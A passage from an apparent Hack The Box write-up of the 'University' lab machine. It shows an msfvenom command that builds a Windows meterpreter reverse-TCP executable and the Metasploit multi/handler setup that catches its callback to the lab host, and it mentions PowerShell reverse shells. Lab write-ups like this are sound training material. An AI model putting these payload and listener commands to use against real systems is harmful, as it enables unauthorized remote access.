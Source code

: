 First we played a bit various payloads like `PowerShell reverse shells` which all worked but the most reliable way was to `download` and `execute` a `payload` created with `msfvenom`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/serve]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.79 LPORT=6669 -f exe -o asdf.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: asdf.exe
```

After we prepared the `binary` to `download` using the `PoC` we started our `listener` in `Metasploit`.

```c
┌──(kali㉿kali)-[~]
└─$ msfconsole
Metasploit tip: Use sessions -1 to interact with the last opened session
                                                  

                                   .,,.                  .
                                .\$$$$$L..,,==aaccaacc%#s$b.       d8,    d8P
                     d8P        #$$$$$$$$$$$$$$$$$$$$$$$$$$$b.    `BP  d888888p
                  d888888P      '7$$$$\""""''^^`` .7$$$|D*"'```         ?88'
  d8bd8b.d8p d8888b ?88' d888b8b            _.os#$|8*"`   d8P       ?8b  88P
  88P`?P'?P d8b_,dP 88P d8P' ?88       .oaS###S*"`       d8P d8888b $whi?88b 88b
 d88  d8 ?8 88b     88b 88b  ,88b .osS$$$$*" ?88,.d88b, d88 d8P' ?88 88P `?8b
d88' d88b 8b`?8888P'`?8b`?88P'.aS$$$$Q*"`    `?88'  ?88 ?88 88b  d88 d88
                          .a#$$$$$$"`          88b  d8P  88b`?8888P'
                       ,s$$$$$$$"`             888888P'   88n      _.,,,ass;:
                    .a$$$$$$$P`               d88P'    .,.ass%#S$$$$$$$$$$$$$$'
                 .a$###$$$P`           _.,,-aqsc#SS$$$$$$$$$$$$$$$$$$$$$$$$$$'
              ,a$$###$$P`  _.,-ass#S$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$####SSSS'
           .a$$$$$$$$$$SSS$$$$$$$$$$$$$$$$$$$$$$$$$$$$SS##==--""''^^/$$$$$$'
_______________________________________________________________   ,&$$$$$$'_____
                                                                 ll&&$$$$'
                                                              .;;lll&&&&'
                                                            ...;;lllll&'
                                                          ......;;;llll;;;....
                                                           ` ......;;;;... .  .


       =[ metasploit v6.4.30-dev                          ]
+ -- --=[ 2458 exploits - 1264 auxiliary - 430 post       ]
+ -- --=[ 1468 payloads - 49 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 6669
LPORT => 6669
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.79:6669
```
